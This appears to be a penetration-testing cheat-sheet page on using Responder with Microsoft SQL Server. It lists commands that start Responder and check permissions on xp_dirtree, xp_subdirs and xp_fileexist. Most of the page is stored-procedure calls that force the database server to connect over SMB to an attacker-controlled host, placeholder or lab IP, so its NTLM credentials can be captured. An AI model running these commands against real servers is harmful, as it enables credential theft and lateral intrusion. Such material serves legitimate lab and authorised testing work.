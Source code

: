 # Responder

### Common Commands

```bash
# Kali 
sudo responder -I tun0 -v

# Check who has the permission to run
SQL>Use master;
SQL> EXEC sp_helprotect 'xp_dirtree';
SQL> EXEC sp_helprotect 'xp_subdirs';
SQL> EXEC sp_helprotect 'xp_fileexist'

# Try one of them 
SQL> xp_dirtree '\\<attacker_IP>\any\thing'
SQL> master.sys.xp_dirtree '\\10.10.14.54\smb'

SQL> exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
SQL> EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
SQL> EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# sqsh 
1> Use master
1> xp_dirtree '\\10.10.14.4\smb'
2> go
```

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>
